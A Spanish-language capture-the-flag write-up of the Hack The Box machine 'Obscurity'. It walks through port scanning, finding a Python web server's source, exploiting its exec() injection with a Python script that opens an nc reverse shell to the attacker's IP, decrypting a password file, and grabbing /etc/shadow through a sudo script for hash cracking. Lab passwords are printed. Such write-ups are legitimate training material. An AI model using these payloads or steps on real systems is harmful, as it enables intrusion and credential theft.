






Hack The Box - Obscurity [Active]

Contenido
- Contenido protegido por contraseña.
- Para desbloquear el contenido debes Ingresar la flag
root.txtde la maquina.
| Nombre | Obscurity |
|---|---|
| OS | Linux |
| Puntos | 30 |
| Dificultad | Media |
| IP | 10.10.10.168 |
| Maker | clubby789 |
NMAP
Escaneo de puertos tcp/udp y servicios con masscan y nmap.
# Nmap 7.80 scan initiated Wed Jan 8 20:18:09 2020 as: nmap -p- --min-rate 1000 -sV -sC -o nmap_scan 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.27s latency).
Not shown: 65531 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
| 256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_ 256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp closed http
8080/tcp open http-proxy BadHTTPServer
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 200 OK
| Date: Thu, 09 Jan 2020 02:23:51
| Server: BadHTTPServer
| Last-Modified: Thu, 09 Jan 2020 02:23:51
| Content-Length: 4171
| Content-Type: text/html
| Connection: Closed
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>0bscura</title>
| <meta http-equiv="X-UA-Compatible" content="IE=Edge">
| <meta name="viewport" content="width=device-width, initial-scale=1">
| <meta name="keywords" content="">
| <meta name="description" content="">
| <!--
| Easy Profile Template
| http://www.templatemo.com/tm-467-easy-profile
| <!-- stylesheet css -->
| <link rel="stylesheet" href="css/bootstrap.min.css">
| <link rel="stylesheet" href="css/font-awesome.min.css">
| <link rel="stylesheet" href="css/templatemo-blue.css">
| </head>
| <body data-spy="scroll" data-target=".navbar-collapse">
| <!-- preloader section -->
| <!--
| <div class="preloader">
| <div class="sk-spinner sk-spinner-wordpress">
| HTTPOptions:
| HTTP/1.1 200 OK
| Date: Thu, 09 Jan 2020 02:23:52
| Server: BadHTTPServer
| Last-Modified: Thu, 09 Jan 2020 02:23:52
| Content-Length: 4171
| Content-Type: text/html
| Connection: Closed
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>0bscura</title>
| <meta http-equiv="X-UA-Compatible" content="IE=Edge">
| <meta name="viewport" content="width=device-width, initial-scale=1">
| <meta name="keywords" content="">
| <meta name="description" content="">
| <!--
| Easy Profile Template
| http://www.templatemo.com/tm-467-easy-profile
| <!-- stylesheet css -->
| <link rel="stylesheet" href="css/bootstrap.min.css">
| <link rel="stylesheet" href="css/font-awesome.min.css">
| <link rel="stylesheet" href="css/templatemo-blue.css">
| </head>
| <body data-spy="scroll" data-target=".navbar-collapse">
| <!-- preloader section -->
| <!--
| <div class="preloader">
|_ <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=1/8%Time=5E168E70%P=x86_64-pc-linux-gnu%r(Get
[ ... snip ... ]
SF:-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 8 20:24:22 2020 -- 1 IP address (1 host up) scanned in 373.38 seconds
HTTP
En el puerto 8080 encontramos una pagina web, la cual contiene informacion sobre una empresa. 
En la parte de abajo encontramos un mensaje dirigido a los desarrolladores, dando a entender que en el directorio secreto se encuentra el codigo fuente de la pagina.
WFUZZ
Utilizamos wfuzz para encontrar el archivo ‘SuperSecureServer.py’.
root@aoiri:~/htb/obscurity# wfuzz -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py -w /usr/share/wordlists/dirb/common.txt --hc 404
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 2.4 - The Web Fuzzer *
********************************************************
Target: http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
Total requests: 4614
===================================================================
ID Response Lines Word Chars Payload
===================================================================
000001245: 200 170 L 498 W 5892 Ch "develop"
Total time: 116.5698
Processed Requests: 4614
Filtered Requests: 4613
Requests/sec.: 39.58142
Encontramos el archivo ‘SuperSecureServer.py’ del servidor.

RCE - SuperSecureServer.py
Analizamos el codigo del archivo y encontramos una vulnerabilidad la cual se encuentra al realizar una consulta a de un directorio. Al pasarle un directorio (‘directorioABC’) entre comillas, este elimina las comillas, pasa por la funcion exec() y se utiliza el directorio como una variable en un string, en el caso de que no haya errores sigue ejecutandose el codigo.
Codigo vulnerable:
path = urllib.parse.unquote(path)
try:
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
Utilizamos el siguiente payload para ejecutar comandos:
'\'\n\nos.system(" COMANDO ")\n #"'
Realizamos pruebas haciendo una consultas DNS a nuestra maquina:
cmd = '\'\n\nos.system("nslookup $PATH 10.10.15.122")\n #"'

Ejecutamos una shell inversa y obtenemos acceso con el usuario www-data:

Codigo:
import requests
import urllib
#cmd = '\'\n\nos.system(" COMMAND ")\n #"'
#cmd = '\'\n\nos.system("nslookup $(which nc) 10.10.14.14")\n #"'
cmd = '\'\n\nos.system(" rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 1336 >/tmp/f ")\n #"'
path = urllib.parse.quote(cmd, safe='')
print(path)
url = "http://obscure.htb:8080/"+path
r = requests.get(url)
USER - Robert
Enumeramos la carpeta principal del usuario robert, encontramos varios archivos, un script en python que encripta/desencripta archivos utilizando una clave.

Tambien vemos archivos en texto plano, pero dos de ellos parecen estar encriptados por el script.

Al ejecutar el script nos muestra los parametros que necesita para encriptar y desencriptar un archivo.
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -h
python3 SuperSecureCrypt.py -h
usage: SuperSecureCrypt.py [-h] [-i InFile] [-o OutFile] [-k Key] [-d]
Encrypt with 0bscura's encryption algorithm
optional arguments:
-h, --help show this help message and exit
-i InFile The file to read
-o OutFile Where to output the encrypted/decrypted file
-k Key Key to use
-d Decrypt mode
www-data@obscure:/home/robert$
Utilizamos dicho script para poder desencriptar el archivo out.txt con el archivo check.txt como clave para obtener la clave de encriptacion:
python3 SuperSecureCrypt.py -i out.txt -o /tmp/what.txt -k "$(cat check.txt)" -d

Utilizamos la clave para poder desencriptar el archivo out.txt y vemos que es el mismo mensaje que el archivo check.txt tiene, por lo que ya tenemos la clave:
python3 SuperSecureCrypt.py -i out.txt -o /tmp/what2.txt -k "alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich" -d

Utilizamos la clave para desencriptar el archivo passwordreminder.txt:
python3 SuperSecureCrypt.py -i passwordreminder.txt -o /tmp/what3.txt -k "alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich" -d

Obtenemos una contraseña, utilizamos la contraseña con el usuario robert y obtenemos una shell y nuestra flag user.txt:
robert:SecThruObsFTW

PRIVILEGE ESCALATION
Enumeramos los comandos que pueden ser ejecutados con privilegios de root sin contraseña, encontramos un script en python.

Dicho script pregunta por usuario y su contraseña existentes en la maquina, lee /etc/shadow y escribe su contenido en /tmp/SSH/, solo si las credenciales dadas corresponden a uno de los usuarios, el script ejecuta los comandos que se le pasen y elimina el archivo creado en /tmp/SSH/.
Ya que tenemos un usuario con sus credenciales ejecutamos el script pasando el usuario robert y la contraseña SecThruObsFTW, al hacer esto se escribira en /tmp/SSH/ las contraseñas encriptadas de la maquina.
/usr/bin/sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Al mismo tiempo en otra shell utilizamos watch para ver los cambios que hay en /tmp/SSH/ obteniendo con cat el archivo temporal de las contraseñas.
watch -t -d -g -n 0.1 "cat /tmp/SSH/* |base64 > /tmp/b.txt "

Obtenemos el hash del usuario root y robert, utilizamos John The Ripper para desencriptar la contraseña.

Obtenemos la contraseña, una shell con privilegios root y nuestra flag root.txt. root:mercedes